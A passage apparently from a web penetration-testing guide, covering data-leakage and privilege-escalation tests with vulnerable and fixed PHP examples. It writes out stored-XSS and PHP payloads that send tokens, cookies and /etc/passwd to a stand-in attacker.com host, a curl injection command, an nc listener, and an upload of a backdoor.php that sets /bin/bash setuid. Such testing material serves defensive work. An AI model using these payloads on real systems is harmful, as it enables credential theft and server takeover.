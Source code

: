 **Tip**: Save trigger evidence in a report.

### 4. Test for Data Leakage

**Objective**: Verify if inputs can exfiltrate data over time.

**Steps**:
1. Inject leakage payloads:
   - Test: `<script>new Image().src='http://attacker.com/log?data='+encodeURIComponent(localStorage.getItem('token'));</script>`
   - Use cURL:
     ```bash
     curl -i -X POST -d "comment=<script>new Image().src='http://attacker.com/log?data='+encodeURIComponent(localStorage.getItem('token'));</script>" http://example.com/comment
     ```
2. Monitor attacker server:
   - Set up: `nc -l 8080` or check logs.
3. Check responses:
   - Look for stolen data (e.g., tokens, files).
   - Test: `<?php file_get_contents('http://attacker.com/log?data='.urlencode(file_get_contents('/etc/passwd'))); ?>`.
4. Test persistence:
   - Verify if payload remains active.

**Example Vulnerable Code (PHP)**:
```php
$comment = $_POST['comment'];
echo $comment;
```
Test: `comment=<script>new Image().src='http://attacker.com/log?data='+document.cookie;</script>`
Result: Sends cookie.

**Example Secure Code (PHP)**:
```php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
echo $comment;
```
Test: No leakage.

**Remediation**:
- Encode output:
  ```php
  echo htmlentities($comment);
  ```
- Implement CSP:
  ```html
  <meta http-equiv="Content-Security-Policy" content="default-src 'self'">
  ```

**Tip**: Save exfiltrated data in a report.

### 5. Test for Privilege Escalation

**Objective**: Check if inputs can escalate privileges via persistent mechanisms.

**Steps**:
1. Inject escalation payloads:
   - Test: `<?php system('chmod u+s /bin/bash'); ?>`
   - Use Burp:
     ```http
     POST /upload HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     file=backdoor.php&content=<?php system('chmod u+s /bin/bash'); ?>
     ```
2. Verify impact:
   - Check file permissions (gray-box).
   - Test: `sudo -u root /tmp/malicious.sh`.